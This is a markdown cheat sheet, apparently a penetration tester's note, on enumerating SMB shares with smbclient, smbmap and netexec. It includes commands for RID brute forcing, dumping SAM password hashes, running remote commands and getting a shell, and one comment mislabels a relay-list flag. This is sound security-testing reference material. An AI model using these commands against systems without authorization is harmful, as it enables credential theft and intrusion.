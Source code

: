 
## Info
- **Type:** Server Message Block (SMB) Protocol
- **Common Usage:** File and printer sharing in Windows environments
- **Security Note:** SMB services often have misconfigurations, such as anonymous access, guest login, or vulnerable versions (e.g., EternalBlue exploit for SMBv1).

## Basic Commands
### `Smbclient` Command
```bash
# List accessible shares (without credentials)
smbclient -L //$IP -N

# List shares using credentials
smbclient -L //$IP -U $USER%$PASSWORD

# Connect to a share (replace 'sharename' with the actual name)
smbclient //$IP/sharename -U $USER%$PASSWORD

# List files in the share
ls

# Download a file
get file.txt

# Upload a file (if write access is available)
put file.txt
```

### `Smbmap` Command
```bash
# Check access to shares anonymously
smbmap -H $IP

# Check access with credentials
smbmap -H $IP -u $USER -p $PASSWORD

# Attempt to list files in a share
smbmap -H $IP -u $USER -p $PASSWORD -r sharename
```

### `Netexec` Command
```bash
# Enumerate SMB shares with anonymous access
netexec smb $IP --shares

# Enumerate SMB with credentials
netexec smb $IP -u $USER -p $PASSWORD

# Get OS version and domain information
netexec smb $IP -u $USER -p $PASSWORD --gen-relay-list targets.txt

# Perform RID brute force to enumerate users (empty password to check for anonymous access)
netexec smb $IP -u $USER -p '' --rid-brute

# Dump SAM hashes (if privileged)
netexec smb $IP -u $USER -p $PASSWORD --sam

# Execute a command remotely (if permissions allow)
netexec smb $IP -u $USER -p $PASSWORD -x "whoami"

# Attempt to get an interactive shell (if permissions allow)
netexec smb $IP -u $USER -p $PASSWORD --exec-method smbexec
```